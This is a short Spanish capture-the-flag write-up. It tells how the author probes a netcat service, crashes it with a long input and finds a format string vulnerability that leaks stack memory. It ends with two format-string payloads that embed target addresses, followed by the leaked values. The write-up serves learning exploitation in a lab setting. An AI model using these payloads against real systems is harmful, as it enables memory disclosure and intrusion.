





# noooooob

  

Nos conectamos como nos indica. Al intentar listar el pwd, repitio lo que yo escribi, y si preciono enter me saca

  

Eso, junto con la descripcion del desafio, nos da la pauta de que algo tiene que ver con un buffer.  

Entonces, intento mandar un String muy largo. Al hacer esto, el nc me saca directamente (probablemente porque el programa fallo) y me imprime unos caracteres al final

  

Para mi sorpresa, intente ver si podia exitir un Format String Vulnerability

  

Esto genera un Memory Leak Vulnerability. Puedo hacer un leak del stack.

  

%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x \xc7\x05\x40\x00\x00\x00\x00\x00 %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x \x48\x10\x60\x00 %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

00000000004005c7
601048